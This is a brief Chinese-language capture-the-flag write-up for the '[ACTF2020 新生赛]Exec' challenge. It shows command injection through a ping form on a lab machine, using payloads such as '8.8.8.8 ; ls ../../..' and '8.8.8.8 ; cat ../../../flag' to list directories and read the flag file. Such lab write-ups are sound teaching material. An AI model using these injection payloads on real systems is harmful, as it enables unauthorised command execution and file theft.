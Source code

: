 # [ACTF2020 新生赛]Exec


# [ACTF2020 新生赛]Exec

访问靶机：

![[ACTF2020 新生赛]Exec-1](https://pic.imgdb.cn/item/6534ac6bc458853aef147e63.jpg)

输入`8.8.8.8`，点击PING

![[ACTF2020 新生赛]Exec-2](https://pic.imgdb.cn/item/6534acc7c458853aef15c54f.jpg)

输入`8.8.8.8 & ipconfig`，从结果来看没有执行`ipconfig`

![[ACTF2020 新生赛]Exec-3](https://pic.imgdb.cn/item/6534b0d1c458853aef2449b3.jpg)

输入`8.8.8.8 ; ifconfig`，从结果来看执行了`ifconfig`

![[ACTF2020 新生赛]Exec-4](https://pic.imgdb.cn/item/6534b12ac458853aef257724.jpg)

对比以上两条命令可知：

- 该页面存在RCE漏洞
- 服务器为Linux系统

输入`8.8.8.8 ; ls`，看到当前目录下只有一个`index.php`

![[ACTF2020 新生赛]Exec-5](https://pic.imgdb.cn/item/6534b216c458853aef28a7be.jpg)

输入`8.8.8.8 ; ls ..`，也没找到flag文件

![[ACTF2020 新生赛]Exec-6](https://pic.imgdb.cn/item/6534b277c458853aef29ea70.jpg)

以此类推，一直往上级目录查询，直到输入`8.8.8.8 ; ls ../../..`，找到flag文件

![[ACTF2020 新生赛]Exec-7](https://pic.imgdb.cn/item/6534b300c458853aef2bcf6a.jpg)

输入`8.8.8.8 ; cat ../../../flag`，得到flag

![[ACTF2020 新生赛]Exec-8](https://pic.imgdb.cn/item/6534b39ec458853aef2df824.jpg)
